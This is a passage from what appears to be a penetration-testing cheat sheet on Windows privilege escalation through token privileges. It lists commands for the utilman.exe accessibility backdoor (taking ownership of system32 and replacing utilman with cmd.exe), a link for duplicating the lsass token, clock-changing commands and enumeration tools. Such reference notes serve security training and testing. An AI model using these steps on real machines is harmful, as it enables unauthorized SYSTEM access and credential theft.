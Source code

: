 ### Exploitation path
1. `takeown.exe /f "%windir%\system32"`  
2. `icacls.exe "%windir%\system32" /grant "%username%":F`  
3. Rename cmd.exe to utilman.exe  
4. Lock the console and press Win+U

## SeDebugPrivilege

### Exploitation path
Duplicate the `lsass.exe` token -> https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Conjure-LSASS.ps1

## SeSystemtime

### Exploitation path
```powershell
cmd.exe /c date 01-01-01
cmd.exe /c time 00:00
```

# Automated enumeration
- [Windows Exploit Suggester Next-Gen](https://github.com/bitsadmin/wesng)
- [WinPEAS](https://github.com/peass-ng/PEASS-ng/releases/tag/20241101-6f46e855)
- [SeatBelt](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Seatbelt.exe)
